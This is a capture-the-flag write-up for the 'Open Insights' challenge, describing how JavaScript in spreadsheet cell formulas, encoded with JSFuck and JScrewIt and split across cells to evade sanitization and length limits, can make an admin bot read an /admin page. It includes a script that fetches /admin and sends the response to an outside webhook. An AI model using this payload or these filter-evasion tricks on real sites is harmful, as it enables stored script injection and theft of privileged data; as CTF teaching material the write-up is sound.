


# Open Insights

The Open Insights challenge, by tahmid-23 allows users to view and create their own spreadsheets through a web interface and an admin bot capable of viewing user created spreadsheets. It features the following description:

> Share your market insights with the world.


Viewing the share card [spreadsheet](https://open-insight.challs.umdctf.io/sheets/openinsight-share-card), we can see that cell formulas can accept JavaScript as well as doing basic math with formulas like `=document.title` evaluating to . Unfortunately, this is where it gets harder. While some JS executes as expected, others are sanitized. JS that returns values that are not Strings or primitive data types return `undefined` and can not be accessed.

## JSFuck

Enter [JSFuck](https://jsfuck.com/), an esoteric six character version of JavaScript based on the way the language forces anything into a type. JavaScript forces pretty much everything to work together such that in the mind of the JS environment `1` is equivalent to `[+!+[]]+[]`. JSFuck uses these types to create functions and objects, force them into strings, and then chop up those strings to get access to more characters. To learn more about JSFuck I would recommend this video: https://www.youtube.com/watch?v=5wnlYIQKPXM. Without access to source, I am not sure exactly how the sanitization works, but JSFuck works in ways the original JavaScript does not. For example, `document.embeds` returns `undefined`, but if it is passed into JSFuck, it returns an `[object HTMLCollection]`. Given that practical JSFuck is thousands of characters long and not human readable, I will just be writing in plaintext JS, and its safe to assume its being passed through JSFuck.




The HTML of the page references a `/admin` endpoint, and so we can write the following script to fetch the endpoint and then exfiltrate the contents to a webhook:

```javascript
async function call() {
    response = await fetch('/admin');
    status = await response.status;
    text = await response.text();
    await fetch(`https://webhooktest.net/webhook/019dc60a-6fcd-73fd-8a6c-42a44c490fdf?status=${status}&test=${text}`);
    }
call();
```

We pass it into JSFuck and pat ourselves on the back right?

Unfortunately, while we can pass an arbitrarily long JSFuck into a formula and have it execute for our sheets, they are not always saved. Only cells with less than 2,000 characters are saved and viewable to other users. Luckily, we have an entire spreadsheet to work with. Variables saved in one cell are referenceable in others allowing us to build our payload across multiple cells.

## Solution

First of all, in order to optimize how much we can do in a single cell we need to switch to [JScrewIt](https://jscrew.it/). This is an optimized version of JSFuck which allows us to write `async function c() {r =}` in just 1,993 characters. It is important to note, that JScrewIt does not scale evenly with the length of script, given its optimizations. While we can put some things into variables, we are not going to be able to fit everything in this way.

Instead, we need to build a string for our payload and throw it into an `eval` function. We can start by making variables like `c1="a"`, variables are less expensive than their string counterparts, so concatenating variables is cheaper in terms of total JSFuck characters. This strategy is better, but we quickly run into yet more problems. Not all characters are created equal and declarations like `="w"` are over 2,000 characters alone. Instead, we need to be able to generate ASCII characters from integers using `String.fromCharCode()`. If we can run that, we can generated any character. This is easier, but still requires a `C` and all uppercase letters are too expensive to declare to a single variable.

We can deal with this by using the same trick that JSFuck does, finding ways for JS to give us a `C` and then keeping it for ourselves. If we can render `document.embeds`, we can use the `[object HTMLCollection]` string it gives us, and slice it down to the `C`.

Unfortunately that requires even more characters, including `m` which is also too expensive to simply be declared to a variable. Unlike `w` and `C` we can source `m` from somewhere without issue. By creating a variable `d` to store the DOM object, we can reference the title property without needing to do any string shenanigans. The title, `OpenInsight — shared models for forecasters`, includes all the characters we need to string together `document.embeds`. We can grab the `m` using a declaration like `c13=ttl.slice(21,22)`.

Now we finally have everything we need. We can build a `document.embeds` collection, and use its `C` to build the `String.fromCharCdoe()` function to fill out any characters we can't access from the title or declare. From there we can build our payload, but it would be nicer if we can write the payload in plaintext and read it into an `eval` function.

By writing our payload into another cell, it will be in the HTML as the `title` attribute to its given `div` tag. We can access an array of `div` elements using the `document.getElementsByTagName()` method. From there we can spend an hour and a half complaining about JavaScript before realizing you can't just stick an entire HTML page worth of content into a GET parameter.